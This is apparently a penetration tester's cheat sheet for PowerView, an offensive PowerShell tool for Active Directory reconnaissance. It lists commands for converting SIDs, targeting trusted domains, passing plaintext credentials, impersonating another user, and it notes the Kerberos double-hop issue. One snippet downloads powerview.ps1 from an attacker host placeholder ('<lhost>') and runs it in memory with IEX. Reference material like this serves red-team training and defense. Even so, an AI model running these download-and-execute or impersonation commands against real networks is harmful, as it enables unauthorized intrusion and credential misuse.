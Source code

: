 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## Convert from SID
```powershell
Convert-ADName -ObjectName <sid>
```

## Convert to SID
```powershell
ConvertTo-SID -Name <name>
```

## load from remote
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Target a different domain (Trust)
```powershell
<command> -Domain <dst_domain_fqdn>
```

## Use different credentials (-Credential)
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
<command> -Credential $Cred -Domain <dst_domain_fqdn>
```

## Impersonate a user
if running in -sta mode, impersonate another credential a la "runas /netonly"

Invoke-RevertToSelf to leave
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```


## double hop problem
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
klist will return
    Client: backupadm @ legalcorp.local
    Server: academy-aen-ms0$ @
instead of
    Client: backupadm @ legalcorp.local
    Server: krbtgt/legalcorp.local @ legalcorp.local
```
```

